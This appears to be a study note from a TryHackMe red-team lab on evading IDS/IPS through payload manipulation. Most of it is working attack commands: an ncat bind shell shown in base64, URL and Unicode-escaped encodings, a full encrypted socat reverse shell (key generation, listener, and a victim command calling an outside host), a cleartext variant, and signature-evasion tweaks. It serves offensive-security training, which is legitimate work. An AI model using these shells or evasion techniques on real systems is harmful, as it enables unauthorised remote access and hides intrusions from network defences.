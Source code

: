 # Evasion via Payload Manipulation

Payload manipulation techniques help evade network security solutions like IDS/IPS by altering how malicious data appears or is transmitted. Common methods include:

- Obfuscating and encoding the payload
- Encrypting the communication channel
- Modifying the shellcode

---

## 1. Obfuscate and Encode the Payload

IDS rules are often specific, so minor changes can help avoid detection. Techniques include adding extra bytes, obfuscating data, or encrypting communication.

### Example Command

```bash
ncat -lvnp 1234 -e /bin/bash
```
This command listens on TCP port 1234 and connects incoming connections to a Bash shell.

#### Common Transformations

- **Base64 Encoding**

    Encode your payload using `base64`:

    ```bash
    pentester@TryHackMe$ cat input.txt
    ncat -lvnp 1234 -e /bin/bash
    $ base64 input.txt
    bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==
    ```

    The command is now encoded as:  
    `bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==`

- **URL Encoding**

    URL encoding replaces certain characters with `%HH` (hexadecimal ASCII). Use `urlencode` or online tools:

    ```bash
    pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
    ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
    ```

    The command becomes:  
    `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash`

- **Escaped Unicode**

    Some systems accept Unicode-escaped input. For example, using CyberChef's "Escape Unicode Characters" recipe:

    ```
    \u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068
    ```

    This is a drastic transformation that may evade detection if the target system interprets it correctly.

---

## 2. Encrypt the Communication Channel

IDS/IPS cannot inspect encrypted data. Attackers can use encryption to hide payloads.

### Example: Encrypted Reverse Shell with socat

#### Step 1: Create the Key

```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
```

- `thm-reverse.key`: Private key
- `thm-reverse.crt`: Certificate
- `thm-reverse.pem`: Combined PEM file

#### Step 2: Listen with socat

```bash
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```

#### Step 3: Connect from Victim

```bash
socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

**Result:** All traffic is encrypted. IDS/IPS cannot see commands like `cat /etc/passwd`.

#### Comparison: Unencrypted socat

- **Attacker:** `socat -d -d TCP-LISTEN:4443,fork STDOUT`
- **Victim:** `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`

Traffic is in cleartext and easily inspected.

---

## 3. Modify the Data

Simple changes can evade signature-based detection:

- Change the order of flags:  
    `ncat -lvnp 1234 -e /bin/bash` → `ncat -e /bin/bash -lvnp 1234`
- Add extra whitespace:  
    `ncat  -lvnp 1234 -e /bin/bash`
- Use alternative commands:  
    Replace `ncat` with `nc` or `socat`
- Use different encodings if supported by the target

---

**Note:** The effectiveness of these techniques depends on the target system and the specificity of IDS/IPS rules.
